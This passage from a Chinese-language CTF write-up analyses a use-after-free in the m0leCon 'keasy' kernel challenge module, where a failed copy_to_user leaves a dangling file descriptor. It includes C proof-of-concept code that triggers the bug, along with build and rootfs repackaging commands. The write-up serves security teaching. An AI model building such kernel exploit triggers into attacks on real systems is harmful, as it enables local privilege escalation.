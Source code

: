 它创建一个名为 [easy] 的匿名文件，并为其分配一个文件描述符。一旦分配了文件描述符，该数字将被复制到用户态缓冲区。 该功能只能在启动后调用一次*2。

> 注：这里由于没有上锁，所以可以通过 race condition 多次触发，但是这里没有必要。还有就是 fput 的行为是将 file->f_count 减一，只有当 file->f_count 为 0 时，file 才会被释放

# 0x03.漏洞成因

如果在 fd_install 分配文件描述符后 copy_to_user 失败，则执行将转到 err 并调用 fput。  fput 减少文件的引用计数。 在这种情况下，计数器将变为零，因为匿名文件未共享，并且为该文件分配的结构将被释放。

这意味着如果 copy_to_user 失败，则会发生释放后使用，因为文件本身在文件描述符在用户空间中处于活动状态时已被释放。

# 0x04.验证BUG

编写POC代码

```c
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/ioctl.h>
#include <unistd.h>
void fatal(const char *msg) {
  perror(msg);
  exit(1);
}
int main() {
  // Open vulnerable device
  int fd = open("/dev/keasy", O_RDWR);
  if (fd == -1)
    fatal("/dev/keasy");
  // Get dangling file descriptor
  int ezfd = fd + 1;
  if (ioctl(fd, 0, 0xdeadbeef) == 0)
    fatal("ioctl did not fail");
  // Use-after-free
  char buf[4];
  read(ezfd, buf, 4);
  return 0;
}

```

编译POC为静态可执行程序

```shell
gcc poc.c -o poc --static
```

使用`tools/packaging_script.sh`的脚本将根目录重新打包

```shell
root@dppzuw0t7qpab:~/kernel_research/tools# ./packaging_script.sh ~/kernel_research/ctf/m0leCon_CTF_Finals/keasy/challenge/rootfs.cpio.gz ~/kernel_research/ctf/m0leCon_CTF_Finals/keasy/challenge/poc_rootfs.cpio.gz ~/kernel_research/ctf/m0leCon_CTF_Finals/keasy/solved-by-smile/poc
```
